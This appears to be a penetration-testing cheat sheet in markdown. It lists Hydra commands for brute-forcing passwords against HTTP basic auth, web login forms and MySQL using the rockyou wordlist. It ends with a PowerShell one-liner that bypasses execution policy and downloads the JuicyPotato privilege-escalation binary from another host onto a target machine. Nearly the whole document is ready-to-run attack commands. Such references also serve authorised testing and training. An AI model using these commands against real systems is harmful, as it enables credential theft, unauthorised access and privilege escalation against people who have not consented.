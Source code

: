 ***

# Brute Force

## Hydra

### HTTP Basic Authentication

```bash
hydra -l admin -V -P /usr/share/wordlists/rockyou.txt -s 80 -f 192.168.0.1 http-get /phpmyadmin/ -t 15
```

### HTTP Get Request

```bash
hydra 192.168.0.1 -V -L /usr/share/wordlists/user.txt -P /usr/share/wordlists/rockyou.txt http-get-form "/login/:username=^USER^&password=^PASS^:F=Error:H=Cookie: safe=yes; PHPSESSID=12345myphpsessid" -t 15
```

### HTTP Post Request
Check request in BURP to see Post parameters. **-l or -L has to be set, even if there is no user to login with!**. Use `https-post-form` instead of `http-post-form` for HTTPS sites.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.0.1 http-post-form "/webapp/login.php:username=^USER^&password=^PASS^:Invalid" -t 15
```

### MYSQL
*Change MYDATABASENAME. Default databasename is mysql.*

```bash
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt -vv  mysql://192.168.0.1:3306/MYDATABASENAME -t 15
```

***

# File Transfer

## Powershell

### As Cmd.exe Command

```bash
powershell -ExecutionPolicy bypass -noprofile -c (New-Object System.Net.WebClient).DownloadFile('http://192.168.0.1:80/winprivesc/JuicyPotato.exe','C:\Users\john\Desktop\juicy.exe')
```
